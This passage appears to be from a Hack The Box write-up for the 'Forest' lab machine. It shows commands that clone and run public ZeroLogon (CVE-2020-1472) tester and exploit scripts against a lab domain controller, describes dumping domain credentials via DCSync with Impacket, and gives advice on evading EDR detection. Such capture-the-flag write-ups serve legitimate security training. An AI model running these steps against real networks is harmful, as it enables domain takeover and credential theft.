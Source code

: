 ```bash
git clone https://github.com/SecuraBV/CVE-2020-1472.git
cd CVE-2020-1472
pip install -r requirements.txt
chmod +x zerologon_tester.py
./zerologon_tester.py FOREST 10.10.10.161
```

![Screenshot](/assets/images/2023-01-29-Forest-HTB-Writeup/Screenshot_20230129_231650.png)

### Penetration

#### CVE 2020-1472 ZeroLogon Exploitation

Since the scanner finds the domain controller to be vulnerable to a full compromise we can proceed with the exploitation of the machine using the ZeroLogon exploit. Below is another repository for the exploitation of the same CVE. A restoring Python script is also included so that we can restore the domain controller later. By performing the exploitation shown below you will partially break the domain controller. This type of action is now detected in modern versions of [Microsoft Defender for Identity](https://www.microsoft.com/en-us/security/blog/2020/11/30/zerologon-is-now-detected-by-microsoft-defender-for-identity/). If the server is running any EDR solutions it will most likely flag as well.

[ZeroLogon Exploitation Script](https://github.com/dirkjanm/CVE-2020-1472)

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472
python3 cve-2020-1472-exploit.py FOREST 10.10.10.161
```

![Screenshot](/assets/images/2023-01-29-Forest-HTB-Writeup/Screenshot_20230129_233731.png)

Now that the target has been exploited and the machine password is set to a NULL string we can authenticate to it with the machine account. This is performed with Impacket, a Python library for interacting with common Windows services. Using the `secretsdump.py` script, we can perform a DCSync request, and dump all user credentials in the domain controller. This type of action will flag almost any EDR and SIEM/SOAR solution as this is a rare and impactful action on a domain. Do not perform this if you wish to stay silent. A slightly quieter solution over the network would include dumping SYSTEM and SAM on the target machine and decrypting them offline as shown [here](#extract-original-machine-password).
